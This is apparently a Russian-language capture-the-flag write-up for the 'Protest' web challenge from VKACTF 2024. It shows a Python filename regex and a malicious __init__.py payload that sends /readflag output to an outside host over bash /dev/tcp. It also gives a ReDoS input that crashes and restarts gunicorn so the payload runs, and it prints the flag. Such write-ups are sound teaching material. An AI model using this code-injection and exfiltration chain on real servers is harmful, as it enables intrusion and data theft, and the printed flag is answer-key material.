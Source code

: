 ## Protest

| Событие | Название | Категория | Сложность |
| :------ | ---- | ---- | ---- |
| VKACTF 2024 | Protest  | Web | Сложная |

  
### Описание


> Автор: [ EGM ]
>
> Протесты в городе обычное дело, нужно их решать! Бери молоток и беги к рабочим на стоянку!


### Решение

1. Сервис позволяет переводить текстовые файлы в картинки, но имя файла проверяется по регулярке.
```
def check_filename(checked_file):
    random_uuid = str(uuid.uuid4())
    res = re.match(r'^[\.a-zA-Z0-9_-]([\.a-zA-Z0-9_-]+)*$', checked_file)
    safe_filename = random_uuid if res is None else checked_file
    return safe_filename
```

2. Из скрипта ```run.sh``` ,понимаем, что сервер поднимается с помощью ```gunicorn``` сервера.

3. Использем при загрузке файл ```__init__.py``` с нагрузкой которая отправит файл на свой сервер
```
"__import__('os').system('bash -c "/readflag>/dev/tcp/host/port"')"
```

5. Необходимо перегрузить ```gunicorn```, чтобы выполнился новый ```__init__.py``` файл. Воспользуемся redos на 
```
r'^[\.a-zA-Z0-9_-]([\.a-zA-Z0-9_-]+)*$'
aaaaaaaaaaaaaaaaa!
```
5. Сервер перезагрузится с новым ```__init__.py``` файлом и отправит флаг на ваш сервер. 

### Эксплоит
[exploit.py](../give/ez_exploit.py)

### Флаг

```
vka{6Un1p0rn_0r_Pun1c0rn}
```

